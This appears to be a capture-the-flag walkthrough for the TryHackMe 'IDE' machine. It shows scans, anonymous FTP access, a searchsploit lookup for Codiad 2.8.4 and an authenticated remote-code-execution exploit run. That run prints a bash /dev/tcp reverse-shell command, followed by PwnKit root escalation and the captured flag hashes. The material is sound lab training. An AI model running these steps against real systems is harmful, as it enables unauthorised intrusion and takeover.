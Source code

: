 # IDE Machine

>  https://tryhackme.com/room/ide

> 10.10.92.177

--------------------------------

_nmap scan result_

```bash
┌─[astute@astute-vmwarevirtualplatform]─[~/koth/notes/ide]
└──╼ $nmap -sC -sV -A 10.10.92.177 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-14 15:23 EAT
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 16.77% done; ETC: 15:24 (0:00:15 remaining)
Nmap scan report for 10.10.92.177
Host is up (0.16s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE    SERVICE   VERSION
21/tcp   open     ftp       vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.62.16
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open     ssh       OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp   open     http      Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6566/tcp filtered sane-port
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

_default ftp login_ 

```bash
┌─[astute@astute-vmwarevirtualplatform]─[~/koth/notes/ide]
└──╼ $ftp 10.10.92.177
Connected to 10.10.92.177.
220 (vsFTPd 3.0.3)
Name (10.10.92.177:astute): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> 
```
_content of file - from ftp_

```
┌─[astute@astute-vmwarevirtualplatform]─[~/koth/notes/ide]
└──╼ $cat ./-
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```
_gobuster scan result && but nothing found_

```bash
┌─[astute@astute-vmwarevirtualplatform]─[~/koth/notes/ide]
└──╼ $gobuster dir -u http://10.10.92.177/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.92.177/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/02/14 15:30:47 Starting gobuster in directory enumeration mode
===============================================================
Progress: 17529 / 220561 (7.95%)
```

_gobuster on codiad.com_

```bash

┌─[astute@astute-vmwarevirtualplatform]─[~/koth/notes/ide]
└──╼ $gobuster dir -u http://codiad.com -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://codiad.com
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/02/14 15:42:09 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 9652]
/images               (Status: 301) [Size: 162] [--> http://codiad.com/images/]
/assets               (Status: 301) [Size: 162] [--> http://codiad.com/assets/]
/plugins              (Status: 200) [Size: 3358]                               
/fonts                (Status: 301) [Size: 162] [--> http://codiad.com/fonts/] 
/stylesheets          (Status: 301) [Size: 162] [--> http://codiad.com/stylesheets/]
```
_content of AUTHOR.txt could be one of the username_ 

```bash
┌─[astute@astute-vmwarevirtualplatform]─[~/koth/notes/ide/Codiad-v.2.8.4]
└──╼ $cat AUTHORS.txt 
Authors Ordered By First Contribution
--------------------------------------------------

Kent Safranski - @fluidbyte <kent@fluidbyte.net>
Tim Holum - @tholum
Gaurab Paul - @lorefnon
Shawn A - @tablatronix
Florent Galland - @Flolagale
Luc Verdier - @Verdier
Danny Morabito - @newsocialifecom <staff@newsocialife.com>
Alexander D - @daeks
Jean-Philippe Zolesio - @holblin

and all the other contributors - Thanks!
```

_hold back went to enumuration part and search fot exploit for codiad 2.8.4_

```bash
┌─[✗]─[astute@astute-vmwarevirtualplatform]─[~]
└──╼ $searchsploit codiad 2.8.4
-------------------------------------------- ---------------------------------
 Exploit Title                              |  Path
-------------------------------------------- ---------------------------------
Codiad 2.8.4 - Remote Code Execution (Authe | multiple/webapps/49705.py
Codiad 2.8.4 - Remote Code Execution (Authe | multiple/webapps/49902.py
Codiad 2.8.4 - Remote Code Execution (Authe | multiple/webapps/49907.py
Codiad 2.8.4 - Remote Code Execution (Authe | multiple/webapps/50474.txt
-------------------------------------------- ---------------------------------
Shellcodes: No Results
```

_got a reverse shell from the exploit_

``bash
[+] Exploit finished!
[+] Enjoy your reverse shell!
┌─[astute@astute-vmwarevirtualplatform]─[~/koth/notes/ide]
└──╼ $python3 49705.py http://10.10.92.177:62337/ john password 10.11.62.16 9578 linux
[+] Please execute the following command on your vps: 
echo 'bash -c "bash -i >/dev/tcp/10.11.62.16/9579 0>&1 2>&1"' | nc -lnvp 9578
nc -lnvp 9579
[+] Please confirm that you have done the two command above [y/n]
[Y/n] y
[+] Starting...
[+] Login Content : {"status":"success","data":{"username":"john"}}
[+] Login success!
[+] Getting writeable path...
[+] Path Content : {"status":"success","data":{"name":"CloudCall","path":"\/var\/www\/html\/codiad_projects"}}
[+] Writeable Path : /var/www/html/codiad_projects
[+] Sending payload...
```

_privialge excalation done with pwnkit_

```bash

www-data
www-data@ide:/var/www/html/codiad/components/filemanager$ ls
class.dirzip.php       controller.php	  download.php
class.filemanager.php  dialog.php	  init.js
context_menu.json      dialog_upload.php  upload_scripts
www-data@ide:/var/www/html/codiad/components/filemanager$ cd ../../..
www-data@ide:/var/www/html$ cd ../../..
www-data@ide:/$ cd tmp
www-data@ide:/tmp$ ls
PwnKit
www-data@ide:/tmp$ chmod +x PwnKit 
www-data@ide:/tmp$ ./PwnKit 
root@ide:/tmp# 
 ```

 _user flag_

 ```bash

 root@ide:/home/drac# cat user.txt 
 02930d21a8eb009f6d26361b2d24a466
 root@ide:/home/drac# 

```

_root flag_

```
root@ide:~# cat root.txt 
ce258cb16f47f1c66f0b0b77f4e0fb8d
```


